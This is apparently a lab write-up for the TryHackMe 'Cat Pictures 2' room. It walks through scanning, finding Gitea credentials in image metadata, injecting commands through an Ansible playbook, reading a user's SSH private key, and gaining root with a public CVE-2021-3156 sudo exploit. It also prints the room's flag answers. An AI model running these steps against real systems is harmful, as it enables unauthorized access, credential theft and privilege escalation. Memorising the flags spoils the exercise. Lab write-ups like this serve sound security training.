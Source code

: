 ![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f4b5ea55-0e18-4b7f-9f84-d2b4e8979ec9)# [Cat Pictures 2](https://tryhackme.com/room/catpictures2)

> Now with more Cat Pictures!

## Scanning

scan the target

```
nmap -A -T4 10.10.242.208
```

we have a huge of information here (22,80,222,3000,8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/feb2bd3a-4dda-47ab-a7de-475dd8cf7fb6)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5e27774a-d861-45cd-81f9-6ff7c2675c6d)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/78409cf6-feb0-446c-8657-650238e77379)

## HTTP

explore the webserver on port 80, we have an ablums

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bf345fb0-88cf-491d-ba75-e7b0be9f9012)

check the robots.txt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1ef16d46-e8f3-4de1-9b16-7f2cab61c9d2)

on login panel, we know that's Lyche 3.1.1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/709b050e-7bdf-4081-987a-37424dda9e32)

click on ablums, we have some cat images

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8cf3b3b0-1bfa-4a1e-bfd4-148d99d53c36)

we have a nginx webserver on port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b12eb582-5c88-4124-8b6d-257b2c01ace2)

on port 3000, i see a Gitea version 1.17.3

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9a53d313-bf59-48a4-af9f-4ee13fa0f9c8)

click on explore/user, it already have an user `samarium`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c168284c-7abb-4ecd-a5b8-68680fac4f18)

## Enumeration

i found a descript on first picture `note to self: strip metadata`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8dc91eae-9d5e-482d-a891-fa35ce7ff5e4)

download and check its metadata

```
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3af1cd8d-73ae-4521-8a9c-d9a107667350)

The Title header has a link to a text file on port 8080

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9625573f-9e45-491e-83d5-c41c60a819df)

follow the link, i have a credential

```
gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

login gitea server with that information

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8e6d0e17-dcd3-4665-8a29-c79a7a08e773)

check on ansible repo

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3d5cea37-989f-41fe-ae98-389e33bc406d)

| Flag | flag1.txt |
| --- | --- |
| Answer | 10d916eaea54bb5ebe36b59538146bb5 |

check the playbook.yml, i found something maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/271b9c1f-7736-4401-8c83-c13d849209a1)

it runs the `whoami` command as the user `bismuth`

as we remember, there is an Ansible runner present on port 1337

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a531890c-bd02-4531-af1b-884599446618)

i can click on `Run Ansible Playbook` to execute the playbook command and see its log

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/216a39e8-309c-4bba-8041-b261ff943c99)

## Exploitation

return the repo, i see that we can edit the `playbook.yml` on gitea

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7e5629b7-9657-4826-9f65-6296ac05fc29)

```
ls -la
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d9e6b1cc-3516-48ed-a81e-83c1ab6dcdaa)

```
cat flag2.txt
```

| Flag | user.txt |
| --- | --- |
| Answer | 5e2cafbbf180351702651c09cd797920 |

to get into the system, instead of using reverse shell, i think i will leverage ssh in the scan before

```
cat .ssh/id_rsa
```

get the private key of `bismuth`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fce8e59c-7cd5-4a5d-8665-95531bffa707)

removing `"`, `,` and the spaces with cyberchef or with can do yourself

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/362af291-8710-499d-ad8e-ddb065c1fc79)

```
vi id_rsa
chmod 600 id_rsa
ssh -i id_rsa bismuth@10.10.242.208
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c72653fa-e80a-4c9d-9c1e-bac43aa3a573)

## Privilege Escalation

check the sudo version

```
sudo --version
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f119c3b7-b093-4db0-aa40-abf2c9fd863c)

there is a cve-2021-3156 for it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6c2b22af-2c09-4efb-8ae7-8ffd6d54640c)

clone and transfer to the target via scp

```
git clone https://github.com/CptGibbon/CVE-2021-3156
scp -i id_rsa CVE-2021-3156/exploit.c bismuth@10.10.97.70:/home/bismuth/exploit.c
scp -i id_rsa CVE-2021-3156/shellcode.c bismuth@10.10.97.70:/home/bismuth/shellcode.c
scp -i id_rsa CVE-2021-3156/Makefile bismuth@10.10.97.70:/home/bismuth/Makefile
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/01088266-ed44-46d2-96ba-fc1d1babf14d)

on target machine

```
ls
make
./exploit
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/58062ba9-3c2e-4828-9459-e0f7d37d0422)

there you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bdfa26ef-6919-4c86-868e-917723c9cd85)

| Flag | flag3.txt |
| --- | --- |
| Answer | 6d2a9f8f8174e86e27d565087a28a971 |
